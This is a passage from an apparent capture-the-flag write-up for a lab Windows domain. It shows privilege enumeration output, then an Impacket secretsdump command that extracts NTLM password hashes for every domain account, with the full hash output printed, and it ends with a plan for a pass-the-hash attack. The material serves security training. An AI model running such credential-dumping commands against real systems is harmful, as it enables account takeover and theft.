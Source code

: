 ```text
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

If you have credentials you can use Impacket's `secretsdump.py` to try to dump password hashes. These hashes can then be used to either crack and retrieve the passwords or in a pass-the-hash attack.  

```text
zweilos@kalimaa:~/impacket/examples$ python3 ./secretsdump.py -just-dc-ntlm EGOTISTICALBANK/svc_loanmgr@10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:21e6b7db7208776337bf12e6c910a32d:::
[*] Cleaning up...
```

After successfully extracting the password hash for the `Administrator` account I decided to practice doing a pass-the-hash attack \(I didn't attempt to crack the hashes to extract the passwords so I cannot say how long it might take!\).
